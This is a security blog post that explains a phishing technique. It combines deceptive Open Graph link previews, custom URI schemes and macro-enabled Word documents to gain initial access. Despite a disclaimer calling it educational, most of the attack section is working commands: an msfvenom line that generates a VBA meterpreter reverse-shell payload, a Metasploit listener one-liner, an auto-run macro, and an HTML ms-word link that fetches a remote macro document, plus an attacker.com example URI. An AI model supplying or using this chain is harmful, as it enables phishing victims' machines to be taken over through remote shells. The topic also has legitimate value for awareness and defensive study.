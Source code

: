 ```yaml
---
title: Abusing OG Protocol With Macros
date: 2025-03-06 00:00:00 +0200
categories:
  - phishing
tags:
  - phishing
---
```

**Disclaimer:**

This post is for **educational and informational purposes only**. It is intended to raise awareness about how certain technologies work and should **not** be used for any malicious or unethical activities. Misusing this information may violate laws and terms of service, leading to serious legal consequences. The author **does not** encourage or condone any illegal actions. **Use this knowledge responsibly.**
# Introduction
Hello there! I’m Mohamed Aboelnasr, and in this article, we’ll dive into how adversaries can weaponize the **Open Graph (OG) protocol** and **macros inside Word files** to craft **effective phishing attacks** and achieve initial access. By combining these two techniques, attackers can enhance social engineering tactics and bypass common security measures. 

---
### What Are Macros in Microsoft Word?
Macros in Microsoft Word are **automated sequences of commands** written in **Visual Basic for Applications (VBA)** that perform repetitive tasks. They allow users to automate workflows, but they are also **a common attack vector** exploited by adversaries for malicious purposes.
#### How?
1. **Delivery** – The attacker sends a phishing email with a **Word document attachment** (e.g., "Invoice.docm" or "Urgent_Report.docm").
2. **Social Engineering** – The document tricks the user into **enabling macros** by displaying fake warnings (e.g., "This document is protected, enable macros to view content").
3. **Execution** – Once macros are enabled, the VBA script:
    - **Downloads and executes malware** (like a RAT, ransomware, or keylogger).
    - **Runs PowerShell or CMD commands** to create a backdoor.
    - **Modifies system settings** to establish persistence.
4. **Compromise** – The attacker gains **initial access** to the system, which can lead to full compromise.  

in the following image is how macros are added to a word file 
![Image](https://github.com/user-attachments/assets/46412b21-d2ce-403c-8c94-eb1da48ec446)

There are **auto-execution macros**, meaning they run or executed **automatically** when a Word document is opened, e.g., `AutoOpen()` and `Document_Open()` auto macros.
```vba
Sub AutoOpen()
    Dim str As String
    str = "calc.exe"
    Shell str, vbNormalFocus
End Sub
```

> _For the sake of this demo, we will simply open `calc.exe` to demonstrate how macros work. This harmless example illustrate how attackers can use VBA to execute commands on a victim's machine._

![Image](https://github.com/user-attachments/assets/6a1c995a-decd-4c0e-9138-dea7a882919f)
now anyone opens this document and enables the macros the calculator will open.
![Image](https://github.com/user-attachments/assets/c50cf3c5-5a18-4384-8b35-95bf1931e7d2)

---
### What Are Open Graph (OG):
Open Graph (OG) is a metadata protocol introduced by Facebook that allows web pages to control how their content appears when shared on social media platforms. By using OG meta tags, websites can define the title, description, image, and URL displayed in link previews, making shared links more visually appealing and engaging. While OG is designed for legitimate content sharing, adversaries can manipulate it to craft deceptive previews that enhance phishing and social engineering attacks.
In the following image, you can see how a shared post or link might appear on social media:

![Image](https://github.com/user-attachments/assets/8324182a-2fee-4d35-9a99-ccf9effce8e3)

This preview is controlled by **Open Graph (OG) meta tags** embedded within an HTML file. Below is an example of OG metadata that defines how this link is displayed when shared:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta property="og:title" content="Unveiling Hidden Secrets">
    <meta property="og:description" content="A deep dive into deceptive techniques used in phishing and social engineering attacks.">
    <meta property="og:image" content="https://example.com/dark-secrets.jpg">
    <meta property="og:url" content="https://example.com/phishing-techniques">
    <title>Unveiling Hidden Secrets</title>
</head>
<body>
    <h1>How Attackers Manipulate Open Graph</h1>
    <p>Explore how adversaries exploit OG metadata to craft deceptive link previews.</p>
</body>
</html>
```

These **OG meta tags** tell platforms like **Facebook, Twitter, and LinkedIn** how to display the **title, description, image, and URL** when the page is shared. **Attackers often abuse this to create misleading previews** that look legitimate but lead to malicious websites. 

---
### **How Do Apps Like Zoom or Teams Open from a Browser Click?**
Have you ever clicked a meeting link and suddenly **Zoom, Microsoft Teams, or another app pops up**—seamlessly opening the meeting? This isn't magic; it's made possible by **Custom URI Schemes**.
let's take a step back and talk about a custom URI Scheme
### **What Is a Custom URI Scheme?**
A **Custom URI Scheme** allows installed applications to define their own **protocol handlers**, enabling browsers to interact directly with them. Instead of just opening a webpage, a **custom URL can launch an app** and pass specific instructions.
#### **Examples of Custom URI Schemes :**

- **Zoom:** `zoommtg://zoom.us/join?confno=123456789` → Opens the Zoom app and joins a meeting.
- **Microsoft Teams:** `msteams://teams.microsoft.com/l/meetup-join/...` → Launches Teams and joins a meeting.

#### **How Custom URI Schemes Registered in Windows :**
i created a custom uri for opening the notepad just for demonstration, and it's not hard you just need to register a custom uri in the registry editor as the following
1. Open **Registry Editor** (`regedit`).
2. create a new key name it notepad and Navigate to it and add a new string named 'URL Protocol' with empty value:
    ```
    HKEY_CLASSES_ROOT\notepad
    ```
    
3. Create a **new key** named `shell\open\command`.
4. Set the **default value** of `command` to:
    
    ```
    C:\Windows\System32\notepad.exe
    ```
    ![Image](https://github.com/user-attachments/assets/7bcc1a58-ac09-4fdd-a1f3-217d870b0755)
5. Now, typing `notepad://` in a browser or Run dialog `Win+R` will open Notepad.
![Image](https://github.com/user-attachments/assets/94fa6896-e5a0-42b5-b84b-ae401f39c29d)

---
### **How Attackers Exploit This Mechanism**

While these schemes are designed for convenience, **attackers can take advantage of them** to launch **malicious actions with minimal user interaction**. A well-crafted phishing attack might:
1. **Use Open Graph (OG) manipulation** to create a fake, enticing preview of a "secure document" or "urgent meeting."
2. **Embed a malicious Custom URI link** (e.g., `ms-word:ofe|u|https://attacker.com/malicious.docm`).
3. **When clicked, the link directly opens MS Word, Excel, or another app**, automatically retrieving a remote **macro-enabled** document.
4. **If macros are enabled, the malicious code executes**, leading to initial compromise.

And that is what we are going to do :"

---
first we will generate a vba reverse shell code using msfvenom
```sh
msfvenom -x x64 -p windows/x64/meterpreter/reverse_tcp lport=443 lhost=192.168.1.8 -f vba |xsel --clipboard

```
![Image](https://github.com/user-attachments/assets/c78859c6-2b9d-41bd-a10e-583fd9166066)

and start the listener using the multi/handler module in metasploit
```sh
msfconsole -x "use multi/handler;set lhost 192.168.1.8;set lport 443;set payload windows/x64/meterpreter/reverse_tcp;run"
```
next make a word document file with macros that will contain the shellcode generated from msfvenom
![Image](https://github.com/user-attachments/assets/bb8de95f-ca9a-4a27-83e7-5d9c7fdff329)

After setting up the malicious document, the attacker hosts or embeds it on a website. Now, all they need is for someone to **click the link**, which will open the document **directly in Microsoft Word**. If the victim enables macros, the attack is successful—simple and effective.
![Image](https://github.com/user-attachments/assets/d1cd2f07-ae69-4798-9669-5c4f8b6348d7)
```html
<a href="ms-word:ofe|u|http://192.168.1.8:8080/mymacro.doc"class="btn quote" >
Seek the Truth
</a>
```
- **`ms-word:`** → The **custom URI scheme** registered by Microsoft Word.
- **`ofe|u|`** → Special flags that tell Word how to handle the document:
    - **`ofe`** → Open in **editing mode**.
    - **`u`** → Specifies that the file is located at a URL.
- **`http://192.168.1.8:8080/mymacro.doc`** → The actual **document URL** to be opened.
When this link is executed (e.g., pasted in a browser’s address bar or run via `Win + R`), Microsoft Word will:
1. **Launch Word (if not already open).**
2. **Fetch the document** from the specified URL.
3. **Open it directly** in **editable mode**.
and just by convincing the victim to just visit the site and clicks the button
![Image](https://github.com/user-attachments/assets/db3e6002-d05d-4566-a5bb-b78f1709c11d)
he will be prompted to open Microsoft Word
![Image](https://github.com/user-attachments/assets/55ef5ea1-0924-4410-8ee0-4bc17ded66b8)
the word will start downloading the file and opens it
![Image](https://github.com/user-attachments/assets/6becc8e7-17ba-435a-b91d-604e3d4beb9e)

and if the victim enables editing and macros the malicious code will execute and the attacker will get a reverse shell connection back to his C2 or listener.
![Image](https://github.com/user-attachments/assets/937bd8c5-71f7-498f-89a5-aede10ff4bfc)

And that’s it. I hope no one gets tricked by this. and Remember, this is for educational purposes only— please please do not use it maliciously.  
stay safe people..
 
 ---
### References

- [Microsoft Office URI Schemes](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes#13-uri-schema)
- [Open Graph Protocol](https://ogp.me/)
- [What is Open Graph and How Can I Use It?](https://www.freecodecamp.org/news/what-is-open-graph-and-how-can-i-use-it-for-my-website/)
